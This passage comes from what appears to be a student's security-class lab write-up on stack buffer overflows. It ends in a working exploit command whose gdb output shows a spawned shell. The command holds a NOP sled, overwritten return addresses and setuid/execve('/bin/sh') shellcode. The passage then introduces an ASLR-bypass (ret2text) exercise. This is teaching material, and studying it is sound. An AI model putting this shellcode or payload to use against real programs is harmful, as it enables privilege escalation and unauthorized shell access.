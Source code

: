 ### Final solution :running:
Then we have all we need, we just have to put it all together.  The only issue remaining is that I was only able to launch the shellcode in gdb, and the shell get launched in background by gdb.  Their is a way to force gdb to follow the fork created by the programm we run (`set follow-fork-mode child`).
```console
$ (gdb) set follow-fork-mode child
$ (gdb) run `perl -e 'print "\x40"x30 . "\x7c\xf2\xff\xbf" . " " . "\x30\xf5\xff\xbf" . " " . "\x90"x21 . "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"'`
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln `perl -e 'print "\x40"x30 . "\x7c\xf2\xff\xbf" . " " . "\x30\xf5\xff\xbf" . " " . "\x90"x21 . "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42"'`
p=bffff24e       -- before 1st strcpy
p=bffff27c       -- after 1st  strcpy
After second strcpy ;)
process 1581 is executing new program: /usr/bin/dash
$ ls
[Detaching after fork from child process 1590]
vuln  vuln.c
$ 
[Inferior 1 (process 1581) exited normally]
```
This might not work for you as addresses might have changed.

## 6.3 Breaking ASLR
> For this section of the tutorial we will tunr address randomisation back on: `echo 2 | sudo tee /proc/sys/kernel/randomize_va_space` and we can confirm it is on with `sudo cat /proc/sys/kernel/randomize_va_space` and observing the value "2".
> 
> In "ret2text.c" you will find a program that that should be exploitable even with stack protection. You can build the program with:  `gcc -o ret2text ret2text.c`and include debugging if you want.
> 
> You should now be able to cause an overflow that allows you to jump into the secret function.
> 
> HINT: This was used as an example in the lecture with brief discussion of how to perform the exploit.
> 
> In "vulnerable.c" you will find a program that we injected shell code into when ASLR was disabled. Can you inject a shellcode into it with ASLR enable?
> 
> HINT: Some solutions were presented in the lectures, or feel free to instrument the code and learn about the behaviour on your system before exploiting it.


### Idea :bulb:
The idea of the `ret2text` exploit is to rewrite EIP with the address of a non randomized function that can be found in the text section of the binary.
